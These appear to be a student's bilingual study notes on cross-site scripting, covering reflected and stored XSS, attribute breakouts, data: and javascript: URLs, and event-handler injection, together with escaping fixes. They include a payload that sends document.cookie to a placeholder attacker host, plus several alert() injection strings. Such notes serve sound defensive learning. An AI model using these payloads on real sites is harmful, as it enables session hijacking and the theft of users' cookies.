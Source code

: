 #### Session hijacking with XSS (Cross-Site Scripting)

Don't trust any user input or even GET query parameter. Crafted link `target.com:4000/source=<script>alert(document.cookie)</script>`.

What if website is vulnerable to XSS?
- Attacker can insert their code into the webpage
- At this point, they can easily exfiltrate the user's cookie

```html
<script>
  new Image().src = 'https://attacker/com/steal?=cookie=' + document.cookie
</script>
```
#### Escaping

HTML转义：在HTML中，某些字符需要被转义，以防止它们被浏览器解释为HTML代码的一部分。例如，小于号 `<` 需要被转义为 `&lt;`，以防止它被解释为一个标签的开始。
```html
<p>Here is a less than symbol: &lt;</p>
```

#### Reflected v.s. Stored XSS
In reflected XSS, the attacker code is placed into the HTTP request itself; In stored XSS, the attacker code is presisted into the database.

#### HTML attributes
```html
<img src='avatar.png' alt='USER_DATA_HERE' />
```
User input: `Feross' onload='alert(document.cookie)`
Resulting page
```html
<img src='avatar.png' alt='Feross' onload='alert(document.cookie)' />
```
What is the fix? Change all `'` to `&apos;`, change all `"` to `&quot;`

#### HTML attributes without quotes
不加引号是合法的，只是此时属性的值里不能有空格和`%, *, +, -, /, ;, <, =, >, ^, |`等 
```html
<img src=avatar.png alt=USER_DATA_HERE />
```
现在怎么防御XSS呢？还是得always quote attributes.

#### Data URL, `javascript:` attributes

Data URL, https://developer.mozilla.org/zh-CN/docs/Web/URI/Schemes/data
```
data:[<mediatype>][;base64],<data>
```
e.g.
```
data:text/html, <script>alert(1)</script>
```
在Firefox地址栏中粘贴`javascript:alert(1)`回车直接strip掉`javascript:`，手写`javascript:alert(1)`没有反应。在Chrome地址栏中粘贴会直接strip掉`javascript:`。Safari doesn't allow JavaScript from the Smart Search Field.
```
data:text/html, <svg onload=javascript:alert(1)>
```

#### on* attributes
```html
<div onmouseover='handleHover(USER_DATA_HERE)'>
```
Escaping `'` and `"` is not enough here.
Attacker input: `); alert(document.cookie`
```html
<div onmouseover='handleHover(); alert(document.cookie)'>
```
